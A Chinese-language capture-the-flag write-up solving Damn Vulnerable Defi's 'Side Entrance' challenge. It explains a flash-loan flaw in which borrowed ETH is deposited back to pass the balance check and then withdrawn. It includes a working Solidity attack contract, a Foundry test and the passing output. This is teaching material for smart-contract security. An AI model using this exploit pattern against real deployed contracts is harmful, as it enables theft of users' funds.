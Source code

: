## 题目 [Side Entrance](https://github.com/theredguild/damn-vulnerable-defi/tree/v4.0.0/src/side-entrance)
一个非常简单的资金池允许任何人存入 ETH，并在任何时间提取。  

该池已经有 1000 ETH的余额，并且为了推广他们的系统，正在提供免费的闪电贷。  

你开始时有 1 ETH 的余额。通过将池中的所有 ETH 救出并存入指定的恢复账户来完成挑战。  

## 合约分析
只有一个 `SideEntranceLenderPool` 合约，和上题类似，该合约实现了一个非标准的闪电贷方法。`IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();` 但只能回调借贷合约的 `execute` 方法，并且借贷的是主网币。  
``` solidity
function flashLoan(uint256 amount) external {
    uint256 balanceBefore = address(this).balance;

    IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

    if (address(this).balance < balanceBefore) {
        revert RepayFailed();
    }
}
```
此外，这个合约同时实现了简单的存款和取款函数。  
``` solidity
function deposit() external payable {
    unchecked {
        balances[msg.sender] += msg.value;
    }
    emit Deposit(msg.sender, msg.value);
}

function withdraw() external {
    uint256 amount = balances[msg.sender];

    delete balances[msg.sender];
    emit Withdraw(msg.sender, amount);

    SafeTransferLib.safeTransferETH(msg.sender, amount);
}
```
**问题分析：**该合约的闪电贷仅仅检查了合约调用前后的余额差异，并没有严格要求借贷的金额和利息在 `execute` 回调中被立即返还。这使得我们可以利用闪电贷借出的 ETH，立即通过 `deposit` 函数存回合约中。这满足了闪电贷的余额检查，同时也增加了我们在合约中的余额。然后，我们可以通过调用 `withdraw` 函数取出所有资金。  

## 题解
攻击合约的设计思路如下：  
1. 在 attack 函数中请求闪电贷借出合约中所有的 ETH。
2. 在 execute 回调中，将借出的 ETH 存入合约。
3. 闪电贷检查通过后，从合约中提取出所有 ETH。
4. 将提取到的 ETH 转移到恢复地址。
``` solidity
contract SideEntranceAttack{
    SideEntranceLenderPool public pool;
    address public recovery;

    constructor(address _pool, address _recovery){  
        pool = SideEntranceLenderPool(_pool);
        recovery = _recovery;
    }

    function attack() external {
        uint256 amount = address(pool).balance;
        pool.flashLoan(amount);
        pool.withdraw();
        payable(recovery).transfer(amount);
    }

    function execute() external payable {
        // 把闪电贷收到的钱全存回去。
        pool.deposit{value:msg.value}();
    }

    receive() external payable{}
}
```
测试调用：  
``` solidity
function test_sideEntrance() public checkSolvedByPlayer {
    SideEntranceAttack sideEntranceAttack = new SideEntranceAttack(address(pool), recovery);
    sideEntranceAttack.attack();
}
```
运行测试：  
```
forge test --mp test/side-entrance/SideEntrance.t.sol
```
运行结果：
```
Ran 2 tests for test/side-entrance/SideEntrance.t.sol:SideEntranceChallenge
[PASS] test_assertInitialState() (gas: 12975)
[PASS] test_sideEntrance() (gas: 268634)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 8.45ms (1.59ms CPU time)
```